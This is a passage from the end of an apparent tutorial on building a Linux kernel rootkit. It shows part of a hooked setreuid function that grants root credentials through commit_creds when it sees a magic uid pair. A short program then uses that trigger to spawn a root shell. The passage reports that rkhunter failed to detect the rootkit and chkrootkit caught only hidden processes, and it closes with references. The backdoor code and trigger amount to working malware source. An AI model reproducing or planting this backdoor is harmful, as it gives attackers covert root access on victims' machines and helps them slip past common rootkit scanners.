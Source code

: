     		return commit_creds(credential);
    	}
    	
    	// Otherwise just call original function
    	return original_setreuid(ruid, euid);
    }


If a certain set of (_ruid_/_euid_) is configured to a normal program with a user privilege (i.e _ruid_ = 1234, _euid =_ 5678), it will obtain a root privilege with this backdoor at once. The “_cred_” structure has been used in _linux/cred.h. _The following is a simple test code to test backdoor feature.

    
    #include <stdio.h>
    
    int main(void)
    {
    	int ruid = 1234;
    	int euid = 5678;
    	
    	setreuid(ruid, euid);
    	system("/bin/sh");
    }


Lastly, I have made an attempt to detect the _rootkit_ with existing tools - _chkrookit_ and _rkhunter_ - to see if they can detect it.  Interesting enough, _rkhunter_ does not detect anything, meaning that the following results are exactly the same with the one before infection whereas _chkrootkit_ discovered 2 hidden processes.

Note that any misuse of this article would be beyond my scope of responsibility. 

**5. References**



	
  * Linux Kernel Programming Guide, [http://www.tldp.org/LDP/lkmpg/2.6/html/index.html](http://www.tldp.org/LDP/lkmpg/2.6/html/index.html)

	
  * Linux Device Drivers, Third Edition, [http://lwn.net/Kernel/LDD3/](http://lwn.net/Kernel/LDD3/)

	
  * Linux man – _strace_, [http://linux.die.net/man/1/strace](http://linux.die.net/man/1/strace)

	
  * Linux Cross Reference, [http://lxr.linux.no/](http://lxr.linux.no/)

	
  * Linux Cross Reference, [http://lxr.free-electrons.com/search](http://lxr.free-electrons.com/search)

	
  * Jamie Butler and Greg Hoglund, VICE – Catch the hookers! In blackhat US 2004, [http://www.blackhat.com/presentations/bh-usa-04/bh-us-04-butler/bh-us-04-butler.pdf](http://www.blackhat.com/presentations/bh-usa-04/bh-us-04-butler/bh-us-04-butler.pdf)

	
  * Andreas Bunten, UNIX and Linux based Kernel Rooktkits, DIMVA 2004, [http://www.kernelhacking.com/rodrigo/docs/StMichael/BuntenSlides.pdf](http://www.kernelhacking.com/rodrigo/docs/StMichael/BuntenSlides.pdf)

